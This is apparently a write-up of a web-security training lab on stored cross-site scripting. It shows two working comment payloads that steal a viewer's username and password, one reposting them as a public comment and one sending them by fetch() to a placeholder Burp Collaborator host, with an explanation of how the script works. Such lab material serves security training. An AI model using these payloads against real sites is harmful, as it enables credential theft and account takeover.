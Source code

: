 ## Solution steps

- Open any blog post and write a comment to trigger an alert with random name and email.
- Notice that you can trigger an alert easily with this kind of payload: `<script>alert(1)</script>`
- But in this lab we have to steal victim's credentials, then use it to log in to the victim's account.
- This Lab has 2 solutions, one using Burp Collaborator and another without using Burp Collaborator. I will explain the steps without using burp collaborator as I don't have the premium version. But I will paste the another solution at the bottom from their official solution for your and my convenience :)

### Without using Burp Collaborator

- This solution is considered less subtle because this will make the victim post their credentials within a blog comment and every user visiting the page will be able to see it.
- Open Burp suite and set-up proxy (Keep intercept off).
- Post a random comment.
- From Http history, view `POST /post/comment` and notice that the request contains your session cookie and a `csrf` parameter.
- Copy the following payload and paste it as comment with random name and email:
  ```html
  <input type="text" name="username">
  <input type="password" name="password" onchange="hax()">

  <script>
  function hax() {
  var token = document.getElementsByName('csrf')[0].value;
  var username = document.getElementsByName('username')[0].value;
  var password = document.getElementsByName('password')[0].value;

  var data = new FormData();
  data.append('csrf',token)
  data.append('postId',5);
  data.append('comment',`${username}:${password}`);
  data.append('name','chris');
  data.append('email','chris@01.com');
  data.append('website','http://www.chris.com');

  fetch('/post/comment', {
  method: 'POST',
  mode: 'no-cors',
  body: data
  });
  }
  </script>

- Note: Change the postId parameter according to the post where you're commenting.
- Go back to the post and view that username and password is posted in this format: `username:password`.
- Log in using the credentials to complete the lab.
  
#### How the script works

- This script is designed to exfiltrate the victim’s username and password by leveraging a vulnerable comment form. The form fields `<input name="username">` and `<input name="password">` capture user credentials. When the user types a password, the onchange event triggers the `hax()` function.
- Inside `hax()`, the script extracts:
  - The CSRF token from a hidden input `(name="csrf")`,
  - The values of the username and password fields.
- It then constructs a `FormData` object, which includes:
  - The CSRF token,
  - The stolen credentials formatted as username:password in the comment field,
  - Dummy name, email, and website values.
- Finally, it sends this data using a `fetch()` request to the vulnerable site’s `/post/comment` endpoint. Since `mode: 'no-cors'` is used, the browser won’t block the request, though you won’t see a response in the console. The credentials are silently submitted and saved as a comment on the post.

### Using Burp collaborator

- Using Burp Suite Professional, go to the Collaborator tab.
- Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
- Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
  ```html
  <input name=username id=username>
  <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
  method:'POST',
  mode: 'no-cors',
  body:username.value+':'+this.value
  });">
- This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.
- Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
- Take a note of the value of the victim's username and password in the POST body.
- Use the credentials to log in as the victim user.
